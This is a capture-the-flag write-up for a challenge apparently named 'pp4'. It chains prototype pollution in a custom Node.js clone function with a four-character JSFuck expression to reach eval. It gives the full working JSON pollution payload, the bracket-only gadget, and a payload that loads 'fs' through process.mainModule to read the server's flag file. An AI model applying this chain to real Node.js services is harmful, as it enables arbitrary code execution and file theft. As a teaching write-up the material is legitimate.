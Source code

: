 # pp4

## Challenge Overview

The challenge involved a Node.js script running on the organizer's infra in a container which also housed a file containing the flag.

The script did the following things:

1. Accepted a JSON string, which it parsed with JSON.parse and then it deep-cloned it using a homegrown clone function
2. Accepted JavaScript code which then it executed in the same script using `eval`. The code could only use 4 distinct characters.

## Our solution

After viewing the source code of the script we quickly noticed that the flaw lies in the `clone` function.

```js
const clone = (target, result = {}) => {
  for (const [key, value] of Object.entries(target)) {
    if (value && typeof value == "object") {
      if (!(key in result)) result[key] = {};
      clone(value, result[key]);
    } else {
      result[key] = value;
    }
  }
  return result;
};
```

It does not check the `key` for `"prototype"` or `"__proto__"`. This means it is vulnerable to [prototype pollution] (https://learn.snyk.io/lesson/prototype-pollution/).

And the other part of the script reminded us of [JSFuck](https://jsfuck.com/). The only problem is that JSFuck uses 6 characters (two more than were allowed in the task). That being said the JSFuck homepage includes a handy cheatsheet of strings it uses to encode different things:

- `false`       =>  `![]`
- `true`        =>  `!![]`
- `undefined`   =>  `[][[]]`
- `NaN`         =>  `+[![]]`
- `0`           =>  `+[]`
- `1`           =>  `+!+[]`
- `2`           =>  `!+[]+!+[]`
- `10`          =>  `[+!+[]]+[+[]]`
- `Array`       =>  `[]`
- `Number`      =>  `+[]`
- `String`      =>  `[]+[]`
- `Boolean`     =>  `![]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

As we can see not all of them use the full 6 characters - some of them only two or four. This means we should somehow combine this subset of a subset to execute something useful.

We knew that we would somehow need to execute normal JS code in there, so we needed the `eval` primitive. It uses exactly 4 different characters (`[`, `]`, `(`, `)`), and from that we can eliminate all the primitives that use `!` or `+`. This leaves us with:

- `undefined`   =>  `[][[]]`
- `Array`       =>  `[]`
- `Function`    =>  `[]["filter"]`
- `eval`        =>  `[]["filter"]["constructor"]( CODE )()`
- `window`      =>  `[]["filter"]["constructor"]("return this")()`

That means we need to somehow represent three strings: `"filter"`, `"constructor"` and the code that dumps the flag. We will provide those using the prototype pollution.


We modified the script a little bit to serve as a playground to test our solution. This is how we got our first required string.

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const code = `${filterStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

To achieve that we polluted the `Object` prototype at with the key of `"undefined"` and indexed an array with `undefined`. `Array` extends `Object` and `undefined` got converted to a string, so the `filter` string was retrieved.

 We used javascript's template literal to "compose" the final code not to get lost in the mess of multiple characters `[`, `]` right next to each other.


We then proceeded to obtaining the `"constructor"` string. 

```js
(async () => {
// Step 1: Prototype Pollution

    const json = `{
        "__proto__": {
            "undefined": "filter",
            "filter": "constructor"
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const filterStr = `[][${undef}]`;
   const constructorStr = `[][${filterStr}]`;
   const code = `${constructorStr}`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

We decided to add another key - `"filter"` to the prototype and then index the array with it (since we have it from the previous step).

This program yielded an unexpected result:

```
> node pp4.js
{}
result [Function: filter]
```

After some experimentation we noticed that this does not happen for other strings than `"filter"`. Turns out this is due to the fact that [`Array.prototype.filter()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/filter) exists and it overrides the field we polluted. 

Fortunately we had another string - our code that could serve as a key. Then in the key indexed by the code we added another object with the same indexes - but the values were `"filter"` and `"constructor"`.  We added a placeholder for the code we were going to execute:


```js
(async () => {
// Step 1: Prototype Pollution

    const payload = `console.log("hello")`;
    const json = `{
        "__proto__": {
            "undefined": ${JSON.stringify(payload)},
            ${JSON.stringify(payload)}: {
                ${JSON.stringify(payload)}: "constructor",
                "undefined": "filter"
            }
            
        }
    }`
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters

   const undef = `[][[]]`;
   const codeStr = `[][${undef}]`;
   const filterStr = `[][${codeStr}][${undef}]`
   const constructorStr  = `[][${codeStr}][${codeStr}]`
   const code = `[][${filterStr}][${constructorStr}](${codeStr})()`;
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log("result", eval(code));
})().finally(() => rl.close());
```

This is the JSFuck part of the challenge done. The final resulting JSFuck was:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```

Now came the part of writing the payload. Initially we started with this code:

```js
const fs = require('fs');
console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

Unfortunately it broke with:

```
    const fs = require('fs');
               ^

ReferenceError: require is not defined
```

Apparently this happens in nodejs when writing code as a string and passing it to the `Function` prototype. Fortunately we found [this stackoverflow post](https://stackoverflow.com/a/43492031) which remediated the problem.

Final payload:

```js
const fs = global.process.mainModule.constructor._load('fs');
    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))
```

The only thing left was to take the final JSON and JSFuck and send it to the server over `nc`. This is roughly what we sent:

JSON:

```json
{"__proto__":{"undefined":"\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ","\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ":{"\n    const fs = global.process.mainModule.constructor._load('fs');\n    console.log(fs.readFileSync('/' + fs.readdirSync('/').find(file => file.startsWith('flag')), 'utf8'))\n    ":"constructor","undefined":"filter"}}}
```

JSFuck:

```js
[][[][[][[][[]]]][[][[]]]][[][[][[][[]]]][[][[][[]]]]]([][[][[]]])()
```
